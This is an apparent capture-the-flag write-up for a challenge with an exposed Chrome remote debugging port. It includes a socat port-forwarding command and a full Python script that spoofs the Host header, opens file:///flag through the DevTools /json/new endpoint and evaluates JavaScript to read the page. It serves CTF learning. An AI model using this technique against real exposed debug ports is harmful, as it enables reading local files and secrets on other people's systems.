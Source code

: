 Maybe using Inspect Element will help you!

![Alt text](image-1.png)

This challenge only gives you the Dockerfile. In it, it shows that it is using google chrome with a debugger port which is exposed. With the debug port we can send commands.

However, in order to send commands using TCP and not only TLS we need to open a socket:

`socat TCP-LISTEN:1337,fork OPENSSL:how-deep-is-your-love--disciples-2841.ctf.kitctf.de:443`

It basically forwards the local port 1337 to the port exposed.
Then we can use a metasploit module called: `auxiliary/gather/chrome_debugger`

However for some reason i got the error: `error:0A000458:SSL routines::tlsv1 unrecognized name` every time.

First we send a PUT request to json/new endpoint with the file we want to open. Then it will open the file and create a pageid for that file. To open the page we use the websocket library.
The following python script solves it:

```py
import requests
import json
import base64
from urllib.parse import quote_plus
from websockets.sync.client import connect
import websocket

host = 'boulevard-of-broken-dreams--kshmr-7952.ctf.kitctf.de'
url = f'https://{host}'

try:
    r = requests.put(f'{url}/json/new?file:///flag', headers=dict(Host='localhost'))
    
    pageId = json.loads(r.text)['id']
    
    print(pageId)

    wsurl = f"wss://{host}/devtools/page/{pageId}"

    ws = websocket.create_connection(wsurl, suppress_origin=True)

    ws.send(json.dumps({
        "id": 6969,
        "method": "Page.navigate",
        "params": {
            "url": "file:///flag"
        }
    }))

    resp = json.loads(ws.recv())
    print(resp)

    ws.send(json.dumps({
        "id": 6970,
        "method": "Runtime.evaluate",
        "params": {
            "expression": "document.documentElement.outerHTML"
        }
    }))

    resp = json.loads(ws.recv())
    print(resp)

    ws.close()
    
except Exception as e:
    print("Error: e", e)
```

![Alt text](image.png)